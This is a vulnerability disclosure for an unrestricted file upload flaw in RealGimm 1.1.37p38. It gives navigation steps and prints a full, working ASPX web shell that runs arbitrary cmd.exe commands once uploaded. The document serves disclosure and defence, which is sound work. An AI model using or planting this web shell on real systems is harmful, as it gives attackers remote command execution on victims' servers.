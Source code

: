 # CVE-ID | RealGimm by GruppoSCAI - Unrestricted File Upload
An unrestricted file upload vunerability was found in RealGimm version 1.1.37p38. What follows is a description of the steps taken to perform the exploit.

## Proof of Concept
In order to reach the vulnerable webpage, select *Patrimonio* from the main menu, then *Comunicazione*, *Modelli Comunicazione* and finally click on *Ente* icon. Then, in the new screen that opens, click on the "Carica Immagine..." link.
![Path to page](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/172fd7f5-1fe4-47be-8ce0-03370c4fe774)
![Vulnerable page](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/efe1d73f-c161-4186-82e8-3a7c180f32a4)

So let's load an aspx webshell. Below the code:
```
<%@ Page Language="C#" Debug="true" Trace="false" %>
<%@ Import Namespace="System.Diagnostics" %>
<%@ Import Namespace="System.IO" %>
<script Language="c#" runat="server">
void Page_Load(object sender, EventArgs e)
{
}
string ExcuteCmd(string arg)
{
ProcessStartInfo psi = new ProcessStartInfo();
psi.FileName = "cmd.exe";
psi.Arguments = "/c "+arg;
psi.RedirectStandardOutput = true;
psi.UseShellExecute = false;
Process p = Process.Start(psi);
StreamReader stmrdr = p.StandardOutput;
string s = stmrdr.ReadToEnd();
stmrdr.Close();
return s;
}
void cmdExe_Click(object sender, System.EventArgs e)
{
Response.Write("<pre>");
Response.Write(Server.HtmlEncode(ExcuteCmd(txtArg.Text)));
Response.Write("</pre>");
}
</script>
<HTML>
<HEAD>
<title>awen asp.net webshell</title>
</HEAD>
<body >
<form id="cmd" method="post" runat="server">
<asp:TextBox id="txtArg" style="Z-INDEX: 101; LEFT: 405px; POSITION: absolute; TOP: 20px" runat="server" Width="250px"></asp:TextBox>
<asp:Button id="testing" style="Z-INDEX: 102; LEFT: 675px; POSITION: absolute; TOP: 18px" runat="server" Text="excute" OnClick="cmdExe_Click"></asp:Button>
<asp:Label id="lblText" style="Z-INDEX: 103; LEFT: 310px; POSITION: absolute; TOP: 22px" runat="server">Command:</asp:Label>
</form>
</body>
</HTML>
```
![ASPX file upload](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/18e8f543-f48e-47f2-bc9e-dfe735ac450d)


Below the intercepted request and response:
![Intercepted request and response](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/9a611616-49e1-46bd-9f11-762428b2acb0)

Once the file has been uploaded, select it from those available and click on the green check to add it to the email body:
![Attaching file to email](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/d58cf1ca-060e-4a07-9d7d-1fcfd87c8891)

Below the intercepted request and response used to attach the web shell to the email’s body:
![Request and response](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/b937394c-e3e0-4974-bd8a-69c0397deb9f)


As can be seen above, the malicious aspx web shell is present and available on the file system underlying the target web application, thus confirming the existence of the vulnerability.


## Vulnerable version of RealGimm

As a result of our testing, version 1.1.37p38 is considered to be affected by this vulnerability. 


## Discovered by

Paolo Caminati

Francesco Mercatili

Claudio Rimensi



